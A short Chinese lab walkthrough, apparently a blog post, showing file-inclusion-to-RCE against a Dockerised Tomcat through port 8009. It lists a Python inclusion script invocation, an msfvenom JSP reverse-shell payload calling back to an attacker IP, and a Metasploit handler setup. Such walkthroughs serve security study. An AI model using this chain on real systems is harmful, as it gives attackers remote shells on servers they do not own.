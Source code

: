 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qah9reEYUjGwNGmhroVHiaATAoavJHsz6RoYCMXiamJdpwIPg104W1pcxg/640?wx_fmt=jpeg)

文件包含 RCE

在线 bash payload 生成：http://www.jackson-t.ca/runtime-exec-payloads.html

```
sudo docker exec -ti 6c bash

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qae0D5LOoQFw0etYJ5ITtcmN5kPq2ic0rV89CITk9kSUdCb3jNibMnfnKg/640?wx_fmt=jpeg)

```
python2 文件包含.py 192.168.175.191 -p 8009 -f 1.txt

```

最终的 txt 的 payload

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.175.167 LPORT=4444 R > shell.txt

```

这边要手动上传上去

查看

```
sudo docker cp /home/dayu/Desktop/shell.txt 6c80deb9d194:/usr/local/tomcat/webapps/ROOT

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QajRiaN8gIWLAiaLwMWEEkzlyjSOKCyMLC6hOcTcXU2wgkfgSibfXxZb1Yg/640?wx_fmt=jpeg)

然后开始上传

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.175.167
lhost => 192.168.175.167
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > exploit -j

```

可以去 docker 底层看看

```
python2 文件包含.py 192.168.175.191 -p 8009 -f shell.txt

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaYoCOUBI4xmLBEHZcfiaJOBukhmz95WmZUqHiaV7heCo2ibBzzzY6Nlpew/640?wx_fmt=jpeg)
